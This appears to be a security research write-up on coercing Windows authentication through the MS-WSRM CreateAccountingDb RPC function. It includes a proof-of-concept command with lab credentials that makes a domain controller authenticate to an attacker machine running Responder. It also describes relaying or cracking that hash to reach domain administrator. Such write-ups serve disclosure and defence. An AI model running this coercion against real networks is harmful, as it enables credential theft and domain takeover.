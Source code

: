 # MS-WSRM - Remote call to CreateAccountingDb (opnum 7)

## Summary

+ **Protocol**: [[MS-WSRM]: Windows System Resource Manager (WSRM) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f)

+ **Protocol UUID**: e8bcffac-b864-4574-b2e8-f1fb21dfdc18

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`CreateAccountingDb`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/f1c48f77-986e-49b7-bbd5-717a391d99fa)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-WSRM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f) protocol (with uuid `e8bcffac-b864-4574-b2e8-f1fb21dfdc18` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-WSRM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-WSRM]: Windows System Resource Manager (WSRM) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f) and allows to call RPC functions of this protocol. We will then call the remote [`CreateAccountingDb`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/f1c48f77-986e-49b7-bbd5-717a391d99fa) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CreateAccountingDb('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
[id(1), helpstring("method CreateAccountingDb")] HRESULT CreateAccountingDb(
   [in] BSTR bstrServerName,
   [in] BOOL bWindowsAuth,
   [in] BSTR bstrUserName,
   [in] BSTR bstrPasswd
 );
```

## References

+ Documentation of protocol [MS-WSRM]: Windows System Resource Manager (WSRM) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f

+ Documentation of function `CreateAccountingDb`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/f1c48f77-986e-49b7-bbd5-717a391d99fa